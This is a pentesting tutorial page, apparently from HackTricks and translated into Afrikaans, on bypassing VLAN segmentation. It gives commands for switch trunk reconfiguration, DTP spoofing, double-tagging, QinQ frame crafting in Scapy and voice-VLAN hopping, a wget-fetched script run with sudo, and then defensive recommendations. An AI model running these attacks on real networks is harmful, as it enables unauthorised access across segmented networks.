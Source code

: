 # Lateral VLAN Segmentation Bypass

{{#include ../../banners/hacktricks-training.md}}

As direkte toegang tot 'n skakel beskikbaar is, kan VLAN-segmentering omseil word. Dit behels die herkonfigurasie van die gekonnekteerde poort na trunk-modus, die vestiging van virtuele interfaces vir teiken VLANs, en die instelling van IP-adresse, hetsy dinamies (DHCP) of staties, afhangende van die scenario (**vir verdere besonderhede kyk [https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9)).**

Aanvanklik is identifikasie van die spesifieke gekonnekteerde poort nodig. Dit kan tipies deur CDP-boodskappe gedoen word, of deur die poort te soek via die **include** masker.

**As CDP nie werk nie, kan poortidentifikasie probeer word deur die MAC-adres te soek**:
```
SW1(config)# show mac address-table | include 0050.0000.0500
```
Voor die oorgang na trunk-modus, moet 'n lys van bestaande VLANs saamgestel word, en hul identifiseerders bepaal. Hierdie identifiseerders word dan aan die koppelvlak toegeken, wat toegang tot verskeie VLANs deur die trunk moontlik maak. Die poort wat gebruik word, is byvoorbeeld geassosieer met VLAN 10.
```
SW1# show vlan brief
```
**Oorgang na trunk-modus behels die invoer van interface-konfigurasie-modus**:
```
SW1(config)# interface GigabitEthernet 0/2
SW1(config-if)# switchport trunk encapsulation dot1q
SW1(config-if)# switchport mode trunk
```
Die oorskakeling na trunk-modus sal tydelik konneksie onderbreek, maar dit kan daarna herstel word.

Virtuele interfaces word dan geskep, VLAN-ID's toegeken en geaktiveer:
```bash
# Legacy (vconfig) – still works but deprecated in modern kernels
sudo vconfig add eth0 10
sudo vconfig add eth0 20
sudo vconfig add eth0 50
sudo vconfig add eth0 60
sudo ifconfig eth0.10 up
sudo ifconfig eth0.20 up
sudo ifconfig eth0.50 up
sudo ifconfig eth0.60 up

# Modern (ip-link – preferred)
sudo modprobe 8021q
sudo ip link add link eth0 name eth0.10 type vlan id 10
sudo ip link add link eth0 name eth0.20 type vlan id 20
sudo ip link set eth0.10 up
sudo ip link set eth0.20 up
sudo dhclient -v eth0.50
sudo dhclient -v eth0.60
```
Daarna word 'n adresversoek via DHCP gemaak. Alternatiewelik, in gevalle waar DHCP nie haalbaar is nie, kan adresse handmatig gekonfigureer word:
```bash
sudo dhclient -v eth0.10
sudo dhclient -v eth0.20
```
Voorbeeld van handmatig 'n statiese IP-adres op 'n koppelvlak (VLAN 10) in te stel:
```bash
sudo ifconfig eth0.10 10.10.10.66 netmask 255.255.255.0
# or
sudo ip addr add 10.10.10.66/24 dev eth0.10
```
Verbondenheid word getoets deur ICMP versoeke na die standaard poorte vir VLANs 10, 20, 50, en 60 te begin.

Uiteindelik stel hierdie proses die omseiling van VLAN-segmentasie in staat, wat onbeperkte toegang tot enige VLAN-netwerk fasiliteer, en die grondslag vir daaropvolgende aksies lê.

---

## Ander VLAN-Hopping Tegnieke (geen bevoorregte skakelaar CLI)

Die vorige metode neem aan dat geverifieerde konsole of Telnet/SSH toegang tot die skakelaar verkry word. In werklike betrokkenhede is die aanvaller gewoonlik aan 'n **gewone toegangspoort** gekoppel. Die volgende Laag-2 truuks laat jou dikwels lateraal beweeg sonder om ooit in die skakelaar OS in te teken:

### 1. Skakelaar-Spoofing met Dynamiese Trunking Protokol (DTP)

Cisco-skakelaars wat DTP geaktiveer hou, sal gelukkig 'n trunk onderhandel as die peer beweer dat dit 'n skakelaar is. Om 'n enkele **DTP “desirable”** of **“trunk”** raam te skep, omskep die toegangspoort in 'n 802.1Q trunk wat *alle* toegelate VLANs dra.

*Yersinia* en verskeie PoCs outomatiseer die proses:
```bash
# Become a trunk using Yersinia (GUI)
sudo yersinia -G          # Launch GUI → Launch attack → DTP → enabling trunking

# Python PoC (dtp-spoof)
git clone https://github.com/fleetcaptain/dtp-spoof.git
sudo python3 dtp-spoof/dtp-spoof.py -i eth0 --desirable
```
Recon helper (passief vingerafdruk die poort se DTP-toestand):
```bash
sudo modprobe 8021q
sudo ip link add link eth0 name eth0.30 type vlan id 30
sudo ip addr add 10.10.30.66/24 dev eth0.30
sudo ip link set eth0.30 up

# or

wget https://gist.githubusercontent.com/mgeeky/3f678d385984ba0377299a844fb793fa/raw/dtpscan.py
sudo python3 dtpscan.py -i eth0
```
Sodra die poort na trunk oorgeskakel word, kan jy 802.1Q sub-interfases skep en presies soos in die vorige afdeling getoon, pivot.

### 2. Dubbel-Tagging (Native-VLAN Misbruik)

As die aanvaller op die **native (ongemerkte) VLAN** sit, kan 'n vervaardigde raam met *twee* 802.1Q koppe na 'n tweede VLAN spring, selfs wanneer die poort in toegangmodus vergrendel is. Gereedskap soos **VLANPWN DoubleTagging.py** (2022-2025 verfrissing) outomatiseer die inspuiting:
```bash
python3 DoubleTagging.py \
--interface eth0 \
--nativevlan 1 \
--targetvlan 20 \
--victim 10.10.20.24 \
--attacker 10.10.1.54
```
### 3. QinQ (802.1ad) Stapeling

Baie ondernemingskerns ondersteun *Q-in-Q* diensverskaffer enkapsulasie. Waar toegelaat, kan 'n aanvaller arbitrêre 802.1Q-gemerkte verkeer binne 'n verskaffer (S-tag) tonnel om sekuriteitsgebiede oor te steek. Vang vir ethertype `0x88a8` en probeer om die buite-tag met Scapy te verwyder:
```python
from scapy.all import *
outer = 100      # Service tag
inner = 30       # Customer / target VLAN
payload = Ether(dst="ff:ff:ff:ff:ff:ff")/Dot1Q(vlan=inner)/IP(dst="10.10.30.1")/ICMP()
frame = Dot1Q(type=0x88a8, vlan=outer)/payload
sendp(frame, iface="eth0")
```
### 4. Voice-VLAN Hijacking via LLDP/CDP (IP-Phone Spoofing)

Korporatiewe toegangspoorte sit dikwels in 'n *“access + voice”* konfigurasie: ongetagde data VLAN vir die werkstasie en 'n getagde stem VLAN wat deur CDP of LLDP-MED geadverteer word. Deur 'n IP-telefoon na te boots, kan die aanvaller outomaties die VoIP VLAN ontdek en daarin spring—selfs wanneer DTP gedeaktiveer is.

*VoIP Hopper* (verpak in Kali 2025.2) ondersteun CDP, DHCP opsies **176/242**, en volle LLDP-MED spoofing:
```bash
# One-shot discovery & hop
sudo voiphopper -i eth0 -f cisco-7940

# Interactive Assessment Mode (passive sniff → auto-hop when VVID learnt)
sudo voiphopper -i eth0 -z

# Result: new sub-interface eth0.<VVID> with a DHCP or static address inside the voice VLAN
```
Die tegniek omseil data/spraak skeiding en is uiters algemeen op ondernemingsrand-skakels in 2025 omdat LLDP outomatiese beleid standaard geaktiveer is op baie modelle.

---

## Verdedigende Aanbevelings

1. Deaktiveer DTP op alle gebruikersfrontpoorte: `switchport mode access` + `switchport nonegotiate`.
2. Verander die inheemse VLAN op elke trunk na 'n **onbenutte, swartgat VLAN** en merk dit: `vlan dot1q tag native`.
3. Prune onnodige VLANs op trunks: `switchport trunk allowed vlan 10,20`.
4. Handhaaf poortsekuriteit, DHCP snooping, dinamiese ARP-inspeksie **en 802.1X** om onwettige Laag-2 aktiwiteit te beperk.
5. Deaktiveer LLDP-MED outomatiese spraakbeleide (of sluit dit aan by geverifieerde MAC OUI's) as IP-foon spoofing nie vereis word nie.
6. Verkies private-VLANs of L3 segmentasie eerder as om slegs op 802.1Q skeiding te vertrou.

---

## Werklike Verskaffer Kwetsbaarhede (2022-2024)

Selfs 'n perfek geharde skakelkonfigurasie kan steeds ondermyn word deur firmware foute. Onlangs voorbeelde sluit in:

* **CVE-2022-20728† – Cisco Aironet/Catalyst Toegangspunte** laat inspuiting van die inheemse VLAN in nie-inheemse WLAN VLANs toe, wat bedrade/draadlose segmentasie omseil.
* **CVE-2024-20465 (Cisco IOS Industriële Ethernet)** laat ACL omseiling op SVIs toe na die omskakeling van Resilient Ethernet Protocol, wat verkeer tussen VRFs/VLANs lek. Patches 17.9.5 of later.

Monitor altyd die verskaffer advies oor VLAN-verwante omseiling/ACL probleme en hou infrastruktuur beelde op datum.

---

## Verwysings

- [https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9)
- VLANPWN aanval toolkit – <https://github.com/casterbytethrowback/VLANPWN>
- Twingate "Wat is VLAN Hopping?" (Aug 2024) – <https://www.twingate.com/blog/glossary/vlan%20hopping>
- VoIP Hopper projek – <https://github.com/hmgh0st/voiphopper>
- Cisco Advies “cisco-sa-apvlan-TDTtb4FY” – <https://sec.cloudapps.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-apvlan-TDTtb4FY>

{{#include ../../banners/hacktricks-training.md}}
